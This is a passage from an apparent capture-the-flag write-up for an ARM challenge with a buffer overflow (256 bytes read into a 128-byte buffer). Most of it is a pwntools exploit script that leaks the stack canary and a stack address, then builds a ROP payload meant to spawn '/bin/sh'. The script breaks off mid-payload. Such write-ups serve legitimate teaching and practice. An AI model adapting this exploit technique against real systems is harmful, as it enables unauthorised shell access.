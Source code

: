 From here, I found that there was a buffer overflow where it reads in 256 bytes into the buffer size of 128. 

## Exploit

At this point, it was a typical ctf challenge where you leak the canary by overwriting its last byte and create a rop chain that pops the shell.    

{% highlight python %}

from pwn import *

context.log_level='DEBUG'

local = 0

if local:
	r = remote("localhost",4444)
else:
	r = remote("armexploit.acebear.site",3001)
	libc = ELF("/home/zero/libc-2.19.so")

pause()

r.recvuntil("choice:")
r.sendline("2")
r.recvuntil(":")
r.sendline("dumb")
r.recvuntil(":")
r.sendline("dumb")

r.recvuntil("choice:")
r.sendline("4")
r.recvuntil(":")
r.sendline("A"*32)

r.recv()

r.recvuntil("choice:")
r.sendline("4")
r.recvuntil(":")
r.sendline("stuff")

r.recvuntil("choice:")
r.sendline("4")
r.recvuntil(":")
r.sendline("root")

r.recvuntil("choice:")
r.sendline("3")
r.send("echo "+"\x90"*123+"\x90")
r.recvuntil("~$")

data = r.recvuntil("~$")
canary =  u32("\x00"+data[125:128])
stack_leak = u32(data[128:132])-0x88+0x35

log.info("Canary: {}".format(hex(canary)))
log.info("Stack: {}".format(stack_leak))

payload = ""
payload += "/bin/sh\x00"+"\x90"*115
payload += p32(canary)
payload += "B"*4
payload += p32(0x1107c) #pop     {r4, r5, r6, r7, r8, r9, sl, pc}
payload += p32(0)
payload += p32(0)
payload += p32(0)
payload += p32(0x00022014) #printfgot
payload += p32(0)